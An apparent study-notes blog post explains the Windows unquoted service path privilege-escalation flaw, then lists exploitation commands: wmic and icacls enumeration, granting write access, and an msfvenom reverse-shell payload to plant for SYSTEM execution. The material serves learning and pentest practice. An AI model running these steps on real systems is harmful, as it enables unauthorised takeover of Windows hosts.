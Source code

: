 ```yaml
---
description: >-
  Unquoted Service Path
title: Unquoted Service Path             # Add title here
date: 2023-02-03 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, Windows - Unquoted Service Path]                     # Change Templates to Writeup
tags: [windows privesc, unquoted service path]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

Another interesting attack vector that can lead to privilege escalation on Windows operating systems revolves around _unquoted service paths_. We can use this attack when we have write permissions to a service's main directory and subdirectories but cannot replace files within them. Please note that this section of the module will not be reproducible on your dedicated client.

Each Windows service maps to an executable file that will be run when the service is started. Most of the time, services that accompany third party software are stored under the C:\\Program Files directory, which contains a space character in its name. This can potentially be turned into an opportunity for a privilege escalation attack.

When using file or directory paths that contain spaces, the developers should always ensure that they are enclosed by quotation marks. This ensures that they are explicitly declared. However, when that is not the case and a path name is unquoted, it is open to interpretation. Specifically, in the case of executable paths, anything that comes after each whitespace character will be treated as a potential argument or option for the executable.

For example, imagine that we have a service stored in a path such as C:\\Program Files\\My Program\\My Service\\service.exe. If the service path is stored _unquoted_, whenever Windows starts the service it will attempt to run an executable from the following paths:

```c
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

In this example, Windows will search each "interpreted location" in an attempt to find a valid executable path. In order to exploit this and subvert the original unquoted service call, we must create a malicious executable, place it in a directory that corresponds to one of the interpreted paths, and name it so that it also matches the interpreted filename. Then, when the service runs, it should execute our file with the same privileges that the service starts as. Often, this happens to be the NT\\SYSTEM account, which results in a successful privilege escalation attack.

For example, we could name our executable Program.exe and place it in C:\\, or name it My.exe and place it in C:\\Program Files. However, this would require some unlikely write permissions since standard users do not have write access to these directories by default.

It is more likely that the software's main directory (C:\\Program Files\\My Program in our example) or subdirectory (C:\\Program Files\\My Program\\My service) is misconfigured, allowing us to plant a malicious My.exe binary.

Although this vulnerability requires a specific combination of requirements, it is easily exploitable and a privilege escalation attack vector worth considering.

### Exploitation

First find programs without quotes and with spaces using wmic:
```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

Verify that unsecure permissions are configured with icacls, if the permissions BUILTIN\Users has the write (W) permission then you can sucessfully execute this vector attack:
```cmd
C:\Program Files\Zen>icacls "C:\Program Files\Zen"
C:\Program Files\Zen BUILTIN\Users:(OI)(CI)(W)
                     NT SERVICE\TrustedInstaller:(I)(F)
                     NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                     NT AUTHORITY\SYSTEM:(I)(F)
                     NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                     BUILTIN\Administrators:(I)(F)
                     BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                     BUILTIN\Users:(I)(RX)(W)
                     BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                     CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
```

If by any chance there is no Write (W) permission you can still be able to add such permission with icacls:
```powershell
icacls "C:\Program Files\Vk9 Security/binary files" /GRANT "BUILTIN\Users":W
```

Upload a reverse shell created with msfvenom:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=445 -f exe -o zen.exe
```

Then restart the service so it is executed from your reverse shell.